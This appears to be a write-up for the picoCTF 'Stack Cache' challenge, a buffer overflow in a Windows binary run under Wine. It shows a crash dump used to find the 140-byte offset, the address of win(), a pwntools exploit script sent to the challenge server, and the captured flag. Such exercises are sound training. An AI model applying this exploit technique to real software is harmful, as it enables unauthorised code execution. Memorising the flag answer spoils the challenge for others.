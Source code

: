 # Stack Cache - 400 pts

### Key points

- Buffer Overflow

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> Challenge best paired with wine. I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using nc saturn.picoctf.net 61889

We are given a binary and its source code.

---

## Solution

Upon opening `vuln.c`, we see that the source code is very _very_ similar to the other buffer overflow challenges. The only difference being it is a Windows executable. You will find the solution is basically the same too.

Here's a quick breakdown of the source code:

`main()` calls `vuln()`

`vuln()` reads an input of buffer size 128 via `gets()`

`win()` opens and reads a file `flag.txt` and prints it, but `win()` is never called.

As with the basic buffer overflow challenges, we simply have to find the offset of the return instruction, and overwrite it with the address of `win()`.

---

### **Wine**

Wine (Wine Is Not an Emulator) is tool that allows Windows executables to be run on other operating systems, such as macOS and Linux.

If you don't have Wine, you can install it with

```ps1
$ sudo apt install wine64
```

or

```ps1
$ sudo apt install wine32
```

if you are running on a 32-bit operating system.

After installing, we can run the binary:

```ps1
$ wine vuln.exe
Give me a string!
flag pls
```

...and it exits.

The buffer size is 128, so lets enter a little more than 128 bytes:

```ps1
$ wine vuln.exe
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh
wine: Unhandled page fault on read access to 65656565 at address 65656565 (thread 0009), starting debugger...
002c:err:winediag:nodrv_CreateWindow Application tried to create a window, but no driver could be loaded.
002c:err:winediag:nodrv_CreateWindow Make sure that your X server is running and that $DISPLAY is set correctly.
Unhandled exception: page fault on read access to 0x65656565 in 32-bit code (0x65656565).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:65656565 ESP:0064fe80 EBP:64646464 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fdf0 EBX:00230e74 ECX:0064fde0 EDX:7fa4a8d8
 ESI:0000001c EDI:0021ffc4
 ...
```

Looks like we succesfully overwrote the `eip` register with `0x65656565` (`'eeee'`). So we need to enter 140 bytes, then the address of `win()`.

Let's find the address of `win()` using objdump:

```ps1
$ objdump -d vuln.exe | grep "win"
00401530 <_win>:
  401551:       75 18                   jne    40156b <_win+0x3b>
```

The address is `0x00401530`. Scripting time!

Send our payload to the remote server: (this specific challenge remote may take around 10 seconds to return a value because it needs to start Wine)

```py
from pwn import *

payload = 140*b"a" + p32(0x00401530)

r = remote("saturn.picoctf.net", "61889")
r.sendline(payload)
result = str(r.recvall())
r.close()
```

Then parse the result and print our flag:

```py
FLAG = result[result.index("picoCTF"):result.index("}") + 1]
print("Flag:", FLAG)
```

---

## Flag

> `picoCTF{Un_v3rr3_d3_v1n_cdac4d01}`

That's French for "A glass of wine", by the way.
